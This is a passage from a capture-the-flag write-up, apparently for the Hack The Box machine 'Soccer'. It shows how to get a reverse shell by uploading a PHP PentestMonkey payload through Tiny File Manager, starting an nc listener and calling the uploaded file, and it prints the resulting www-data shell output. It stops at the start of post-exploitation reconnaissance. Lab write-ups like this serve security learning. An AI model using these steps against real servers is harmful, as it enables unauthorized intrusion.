 Tiny File Manager is a PHP tool, so we can upload a PHP reverse shell.

From [https://www.revshells.com/](https://www.revshells.com/):

- Listener type: nc
- Reverse
  - OS: Linux
  - payload : PHP PentestMonkey

Using Tiny File Manager :
- go to 'tiny/upload' folder
- create a new item, a file, and name it `shell.php`
- edit it, and paste the content of the payload

NB: only /tiny/uploads folder is writable.

start the listener :

```shell
nc -lvnp 9001
```

and call the payload URL (http://soccer.htb/tiny/uploads/shell.php) to get a shell:

Result:

```text
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.11.194.
Ncat: Connection from 10.10.11.194:35102.
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 11:16:02 up  1:04,  0 users,  load average: 0.02, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1044): Inappropriate ioctl for device
bash: no job control in this shell
www-data@soccer:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Current user is `www-data`.

## Post-Exploitation

### Host Reconnaissance

The HTTP server Nginx have 2 configurations :

```shell
www-data@soccer:/etc/nginx/sites-enabled$ ls
```

Result:
